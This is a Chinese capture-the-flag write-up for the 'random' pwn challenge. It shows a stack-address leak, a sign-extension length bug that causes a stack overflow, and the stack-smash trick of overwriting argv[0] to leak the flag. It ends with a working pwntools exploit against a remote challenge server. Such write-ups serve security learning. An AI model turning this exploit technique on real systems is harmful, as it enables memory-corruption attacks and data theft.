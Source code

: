 ```yaml
---
title: PWN-random（stack smash）
description: PWN-random（stack smash）-writeup
date: 2021-08-11 15:07:56
categories:
 - PWN
tags:
---
```


# PWN-random（stack smash）

## IDA分析



main函数

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646403105-ca498f11-5e14-4763-86a7-1a1eeedaa65b.png)

发现prctl，用seccomp-tools dump ./random，发现禁止了execve

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646407902-d657d615-29f7-48c7-a583-c745013d841f.png)

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646413681-87c171a6-d134-40ae-8be1-59c8b80c7a27.png)

将flag的内容写到buf中，然后打印出buf的低一字节数据

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646434515-c141b10f-bf2e-4dcd-9f5f-07e8f7ba4d77.png)

返回一个整形数据给v0，然后与0x80作与赋值给dword_20204c，然后作为sub_C1F的第二个参数

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646442349-8b34368b-c44f-4542-8dd1-b7be90259058.png)

一个一个字节赋值给buf，遇到'\n'退出

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646450597-916f1461-17c0-415a-a9f4-3c572527fb48.png)

## 调试过程

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646459071-1ebc3d27-a193-4aba-82b5-bce48abdd793.png)

发现这里输入16个字节数据后，printf会打印出奇奇怪怪的东西，盲猜是栈的地址，通过调试发现确实是

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646464976-9d3bf181-d828-4ecc-895c-02ee79cba82b.png)

先找到buf的地址，我们就可以通过栈地址找出距离buf的偏移了，0x7ffe15c95da0-0x7ffe15c95a8=0x320

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646474955-42aa73cb-d8d6-4c55-ac98-10e6315fc325.png)

然后是这里，一直觉得这里有问题，卡了好久，然后看了一眼汇编，发现原来是跟0xFFFFFF80作与操作，而且movsx这个指令会直接也有问题，这里会将`32`位寄存器进行符号扩展到`64`位寄存器

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646488361-0756e9ab-f06b-48e5-b2fe-56a677eb28cd.png)

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646493315-a11a933c-be6c-4632-9cf2-c7e6d1adb2bd.png)

通过输入0x80调试发现RSI为0xffffffffffffff80，这个作为sub_C1F的第二个参数，也就是长度，那么就可以造成栈溢出了

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646498505-afb3134b-7fff-42a4-8097-bb7e70364cc3.png)

## 思路



现在是可以求出buf的地址，也就是flag的地址，也有栈溢出的漏洞，但是这题开了pie，不知道基地址和libc的地址，但是这题开了canary，这里就可以用到stack smash，通常return的时候发现栈被修改过就会触发__stack_chk_fail函数，这个函数会打印出argv[0]也就是文件名，argv是存在栈的高地址，可以通过修改argv[0]指向buf也就是flag，从而打印出flag



## EXP



```python
from pwn import *

context.log_level = 'debug'

# p = process('./random')
p = remote('106.75.105.53','52312')

payload = 'a'*15 + 'b'
p.sendafter('tell me your name',payload)
p.recvuntil('ab')
stack = u64(p.recv(6).ljust(8,'\x00'))
print(hex(stack))

flag_addr = stack - 0x320
print(hex(flag_addr))
p.recvline()
buf = p.recvline()[5:-1]
print(buf)
p.sendafter("leave something?\n", str(0x80))

payload = p64(flag_addr)*0x300
p.sendline(payload)

p.interactive()
```



![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628646511312-a26c8405-b762-4d64-8861-0399a6902faf.png)